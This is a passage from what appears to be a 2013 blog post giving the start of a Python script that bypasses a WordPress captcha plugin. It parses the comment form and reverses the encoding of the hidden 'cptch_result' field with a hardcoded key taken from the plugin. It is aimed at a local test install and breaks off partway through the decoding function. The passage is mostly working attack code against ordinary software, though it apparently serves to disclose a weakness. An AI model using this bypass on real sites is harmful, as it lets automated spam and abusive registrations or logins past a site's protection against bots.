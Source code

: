 **Edit: As promised, here is the code that reverses the decode
function:**

    import requests
    import lxml.html
    import hashlib
    import base64

    # A blog post site that needs to have the plugin http://wordpress.org/plugins/captcha/ enabled and 
    # should have a open comment form. This 'attack' works on every form that the plugin supports [E.g. registration,
    # login, ...]. This renders the captcha completely useless.

    # Author: Nikolai Tschacher
    # Date: 07.11.2013

    # tested on my local lamp with version 3.8.7
    TARGET = "http://localhost/~nikolai/wordpress/?p=1" # The landing site.
    COMMENT_POST = "http://localhost/~nikolai/wordpress/wp-comments-post.php" # The comment form to send POST requests at.
    KEY = "bws_3110013"

    def no_plugin(reason=""):
        print('The plugin hidden fields couldn\'t be located. Make sure it is installed. Reason: {}'.format(reason))
        exit(-1)

    # This function reverses essentially the encoding of the hidden field cptch_result.
    # It is exactly the same function with the same password as in the plugin source code.
    def reverse(captcha, key, cptch_time):
        # just convert all but the captcha string to ascii
        key = key.encode('ascii')
        cptch_time = cptch_time.encode('ascii')
        
        print('[i] Trying to decode key: {}, captcha: {} and cptch_time: {}'.format(captcha, key, cptch_time))
        